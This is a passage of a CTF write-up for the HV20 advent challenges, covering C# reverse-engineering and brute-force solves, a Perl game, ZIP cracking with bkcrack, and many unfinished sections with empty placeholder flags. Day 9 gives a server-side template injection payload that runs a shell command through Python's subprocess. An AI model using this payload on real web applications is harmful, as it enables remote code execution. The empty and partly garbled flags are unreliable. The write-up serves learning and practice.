				Console.WriteLine("Congratulations! You're now worthy to claim your flag: {0}", @string);
			}
			end_IL_0000:;
		}
		catch
		{
			Console.WriteLine("Please try again.");
		}
		finally
		{
			Console.WriteLine("Press enter to exit.");
			Console.ReadLine();
		}
	}
}

```

So looks like we need to find the input that passes all the tests in the code, and then we can derive the flag from that.

Lets translate the code into what our strings needs to look like:=

1. Every odd-numbered character has to translate to `BumBumWithTheTumTum`
   - input: `.B.u.m.B.u.m.W.i.t.h.T.h.e.T.u.m.T.u.m.`
   - text2: `SFYyMHtyMz?zcnMzXzNuZzFuMzNyMW5n?2` (tho unknown characters)
2. Input must be "BackAndForth" in reverse `htroFdnAkcaB`
   - text3: `Q1RGX3hsNHoxbmnf`
3. Input must match an algorithm (see snippet below)
   - input: `nOMNSaSFjC[`
   - text4: `00ZDNfMzRzeX0=`

    ```python
    import string

    def m(i):
        arr3 = list(i)
        b = 42
        text = ''
        for k, character in enumerate(arr3):
            c = ord(arr3[k]) ^ b
            b = b + k -4
            text += chr(c)

        return text
    want = 'DinosAreLit'
    key = ''
    for idx, k in enumerate(want):
        for i in string.printable:
            if m(key + i) == want[0:idx + 1]:
                print(key + i, m(key + i), want[0:idx + 1])
                key += i
    # prints
    # nOMNSaSFjC[
    ```
4. Combination of inputs must match a specific SHA1 hash

So we know all the pieces, but piece 2 has two unknown characters. The right ones will lead the fourth test to pass (SHA1 hash). So we just adjust the C# code to loop over all possibilities, and print our flag:


```c#
using System;
using System.Security.Cryptography;
using System.Text;

public class Program{
	public static void Main(string[] args)	{
		byte[] array5 = Convert.FromBase64String("Q1RGX3hsNHoxbmnf");

		string b64chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/";
		for(int x=0;x<=63; x++){
			for(int y=0;y<=63; y++){
				string text2= "SFYyMHtyMz" + b64chars[x] + "zcnMzXzNuZzFuMzNyMW5n" + b64chars[y] + "2";
				byte[] array4 = Convert.FromBase64String(text2 + "00ZDNfMzRzeX0=");
				byte[] array6 = new byte[array4.Length];
				for (int l = 0; l < array4.Length; l++){
					array6[l] = (byte)(array4[l] ^ array5[l % array5.Length]);
				}
				byte[] array7 = SHA1.Create().ComputeHash(array6);
				byte[] array8 = new byte[20]{107,64,119,202,154,218,200,113,63,1,66,148,207,23,254,198,197,79,21,10};
				bool match=true;
				for (int m = 0; m < array7.Length; m++){
					if (array7[m] != array8[m]){
						match=false;
					}
				}
				if (match){
					string flag = Encoding.ASCII.GetString(array4);
					if (flag.StartsWith("HV20{")){
						Console.WriteLine("Congratulations! You're now worthy to claim your flag: {0}", flag);
					}
				}
			}
		}
	}
}

```

```
Congratulations! You're now worthy to claim your flag: HV20{r3?3rs3_3ng1n33r1ng_m4d3_34sy}
```

Note: below are instructions to compile and run C# on Ubuntu:

```
sudo apt-get install mono-runtime mono-mcs
mcs dec7_solve.cs
mono dec7_solve.exe
```


**Flag**
```
HV20{r3?3rs3_3ng1n33r1ng_m4d3_34sy}
```


## Day 08: The Game

**Description**

Let's play another little game this year. Once again, as every year, I promise it is hardly obfuscated.

[Game](writeupfiles/dec8.txt)

**Solution**


```
perl -Mre=eval -MO=Deparse dec8.txt > dec8_deparse.pl
```

makes it a bit more readable.

We can run the code in perl, and see it is a tetris game

```bash
$ sudo apt install libterm-readkey-perl
$ perl dec8.txt
```

There is a flag in there that leads to a Rick roll youtube video, hmm..
We can fiddle with the code a bit to make it easier to play (slower drops, and we make all shapes squares, [dec8_tidy.pl](writeupfiles/dec8_tidy.p.)

The letter that drop do not follow exactly the rick roll video link,

`HV20{https://www.youtube.com/watch?v=dlh4hs0chjl0}`

but this other link it gives also doesnt lead anywhere, hmm, did we emss with some setting that affect the outcome?


**Flag**
```
HV20{}
```

## Day 09: Santa's Gingerbread Factory

**Description**

Here you can customize your absolutely fat-free gingerbread man.

Note: Start your personal instance from the RESOURCES section on top.

Besides the gingerbread men, there are other goodies there. Let's see if you can get the goodie, which is stored in /flag.txt.

**Solution**

We realise we can do a server side template injection (SSTI); this challenge is very similar to [this previous writeup](../PicoCTF_2018/writeup.md#web-exploitation-900-flaskcards-and-freedom) from PicoCTF 2018.

We follow this method, and find the injection that gives us our flag:

```
{{ ''.__class__.__mro__[2].__subclasses__()[258]('cat flag.txt',shell=True,stdout=-1).communicate() }}"
```




**Flag**
```
HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}
```

## Day 10: Be patient with the adjacent

**Description**

Ever wondered how Santa delivers presents, and knows which groups of friends should be provided with the best gifts? It should be as great or as large as possible! Well, here is one way.

Hmm, I cannot seem to read the file either, maybe the internet knows?

[dec10.col.b](writeupfiles/dec10.col.b)

*Hints*
- Hope this cliques for you
- `bin2asc` will help you with this, but ...
- segfaults can be fixed - maybe read the source
- If you are using Windows for this challenge, make sure to add a b to to the fopen calls on lines 37 and 58
- There is more than one thing you can do with this type of file! Try other options...
- Groups, not group

**Solution**

**Flag**
```
HV20{}
```

## Day 11: Chris'mas carol

**Description**

Since yesterday's challenge seems to have been a bit on the hard side, we're adding a small musical innuendo to relax.

My friend Chris from Florida sent me this score. Enjoy! Is this what you call postmodern?


P.S: Also, we're giving another 24h to get full points for the last challenge.

*Hints*
- He also sent this image, but that doesn't look like Miami's skyline to me.
- The secret code is useful for a file - not a website


**Solution**

**Flag**
```
HV20{}
```

## Day 12: Wiener Waltz

**Description**

During their yearly season opening party our super-smart elves developed an improved usage of the well known RSA crypto algorithm. Under the "Green IT" initiative they decided to save computing horsepower (or rather reindeer power?) on their side. To achieve this they chose a pretty large private exponent, around 1/4 of the length of the modulus - impossible to guess. The reduction of 75% should save a lot of computing effort while still being safe. Shouldn't it?
Mission

Your SIGINT team captured some communication containing key exchange and encrypted data. Can you recover the original message?

[dec12.pcap](writeupfiles/dec12.pcap)

*Hints*
- Don't waste time with the attempt to brute-force the private key


**Solution**

**Flag**
```
HV20{}
```

## Day 13: Twelve steps of christmas

**Description**

On the ninth day of Christmas my true love sent to me...

nineties style xls,
eighties style compression,
seventies style crypto,
and the rest has been said previously.

[dec13.xls](writeupfiles/dec13.xls)

*Hints*
- Wait, Bread is on the Nice list? Better check that comment again...

**Solution**

The comment reads

> Not a loaf of bread which is mildly disappointing 1f 9d 8c 42 9a 38 41 24 01 80 41 83 8a 0e f2 39 78 42 80 c1 86 06 03 00 00 01 60 c0 41 62 87 0a 1e dc c8 71 23 Why was the loaf of bread upset? His plan were always going a rye. How does bread win over friends? “You can crust me.” Why does bread hate hot weather? It just feels too toasty.

Putting those bytes in a file:

```
$ cat out.bin | od -tx2 -a
0000000    9d1f    428c    389a    2441    8001    8341    0e8a    39f2
         us  gs  ff   B sub   8   A   $ soh nul   A etx  nl  so   r   9
0000020    4278    c180    0686    0003    0100    c060    6241    0a87
          x   B nul   A ack ack etx nul nul soh   `   @   A   b bel  nl
0000040    dc1e    71c8    0023
         rs   \   H   q   #
0000045
$ file out.bin
out.bin: compress'd data 12 bits
$ cat out.bin| gzip -d | od -tx2 -a
0000000    4d42    884e    0012    0000    0000    008a    0000    007c
          B   M   N  bs dc2 nul nul nul nul nul  nl nul nul nul   | nul
0000020    0000    0227    0000    0227    0000    0001    0020    0003
        nul nul   ' stx nul nul   ' stx nul nul soh nul  sp nul etx nul
0000040    0000    87c4    0012    0000    0000    0000    0000    0000
        nul nul   D bel dc2 nul nul nul nul nul nul nul nul nul nul nul
0000060    0000    0000    0000
        nul nul nul nul nul nul
0000066
```


**Flag**
```
HV20{}
```

## Day 14: Santa's Special GIFt

**Description**

Today, you got a strange GIFt from Santa:


You are unsure what it is for. You do happen to have some wood lying around, but the tool seems to be made for metal. You notice how it has a rather strange size. You could use it for your fingernails, perhaps? If you keep looking, you might see some other uses...


**Solution**

**Flag**
```
HV20{}
```

## Day 15: Man Commands, Server Lost

**Description**

Elf4711 has written a cool front end for the linux man pages. Soon after publishing he got pwned. In the meantime he found out the reason and improved his code. So now he is sure it's unpwnable.

*Notes*
- You need to start the web application from the `RESOURCES` section on top
- This challenge requires a VPN connection into the Hacking-Lab. Check out the document in the `RESOURCES` section.

*Hints*
- Don't miss the source code link on the man page

**Solution**

**Flag**
```
HV20{}
```

## Day 16: Naughty Rudolph

**Description**

Santa loves to keep his personal secrets on a little toy cube he got from a kid called Bread. Turns out that was not a very good idea. Last night Rudolph got hold of it and frubl'd it about five times before spitting it out. Look at it! All the colors have come off! Naughty Rudolph!

[dec16.stl](writeupfiles/dec16.stl)

*Hints*
- The flag matches `/^HV20{[a-z3-7_@]+}$/` and is read face by face, from left to right, top to bottom
- The cube has been scrambled with ~5 moves in total
- jElf has already started trying to solve the problem, however he got lost with all the numbers. Feel free to use his current state if you don't want to start from scratch...

**Solution**

**Flag**
```
HV20{}
```

## Day 17: Santa's Gift Factory Control

**Description**

Santa has a customized remote control panel for his gift factory at the north pole. Only clients with the following fingerprint seem to be able to connect:

`771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0`

Connect to Santa's super-secret control panel and circumvent its access controls.

[Santa's Control Panel](Santa's Control Panel)

*Hints*
- If you get a 403 forbidden: this is part of the challenge
- The remote control panel does client fingerprinting
- There is an information leak somewhere which you need to solve the challenge
- The challenge is not solvable using brute force or injection vulnerabilities
- Newlines matter, check your files

**Solution**

**Flag**
```
HV20{}
```

## Day 18: Santa's lost home

**Description**

Santa has forgotten his password and can no longer access his data. While trying to read the hard disk from another computer he also destroyed an important file. To avoid further damage he made a backup of his home partition. Can you help him recover the data.

When asked he said the only thing he remembers is that he used his name in the password... I thought this was something only a real human would do...

[dec18.bz2](writeupfiles/dec18.bz2)

*Hints*
- It's not rock-science, it's station-science!
- Use default options


**Flag**
```
HV20{}
```

## Day 19: Docker Linter

**Description**

Docker Linter is a useful web application ensuring that your Docker-related files follow best practices. Unfortunately, there's a security issue in there...

Requirements

This challenge requires a reverse shell. You can use the provided Web Shell or the VPN to solve this challenge (see `RESOURCES` on top).

**Solution**

**Flag**
```
HV20{}
```

## Day 20: Twelve steps of Christmas

**Description**
On the twelfth day of Christmas my true love sent to me...
twelve rabbits a-rebeling,
eleven ships a-sailing,
ten (twentyfourpointone) pieces a-puzzling,
and the rest is history.


*Hints*
- You should definitely give [Bread's famous easy perfect fresh rosemary yeast black pepper bread](writeupfiles/dec20.txt) a try this Christmas!

**Solution**

**Flag**
```
HV20{}
```

## Day 21: Threatened Cat

**Description**

You can feed this cat with many different things, but only a certain kind of file can endanger the cat.

Do you find that kind of files? And if yes, can you use it to disclose the flag? Ahhh, by the way: The cat likes to hide its stash in `/usr/bin/catnip.txt`.

Note: The cat is currently in hibernation and will take a few seconds to wake up.

**Solution**

**Flag**
```
HV20{}
```

## Day 22: Title

**Description**

**Solution**

**Flag**
```
HV20{}
```

## Day 23: Title

**Description**

**Solution**

**Flag**
```
HV20{}
```

## Day 24: Title

**Description**

**Solution**

**Flag**
```
HV20{}
```

## Hidden 1 - It's a secret!

**Description**

Who knows where this could be hidden... Only the best of the best shall find it!

**Solution**

In the [day 3 challenge](), there were 100 files in the zipfile that we didn't use, so we went back to see if there was more to be found there..

We decrypt all these files, and see they are b64 strings

```bash
$ for i in {00..99};
do
  bkcrack -C dec3_package2.zip -c "00${i}.bin" -k 2445b967 cfb14967 dceb769b -d 00${i}_decrypt.bin;
  bkcrack-tools/inflate.py < 00${i}_decrypt.bin > 00${i}_deflate.bin;
  cat 00${i}_deflate.bin | base64 -d > 00${i}_b64.bin;
done

$ grep -r HV20 00*_b64.bin
Binary file 0042_b64.bin matches

$ cat 0042_b64.bin
;>>>>   HV20{it_is_always_worth_checking_everywhere_and_congratulations,_you_have_found_a_hidden_flag}   <<<<

```

**Flag**
```
HV20{it_is_always_worth_checking_everywhere_and_congratulations,_you_have_found_a_hidden_flag}
```
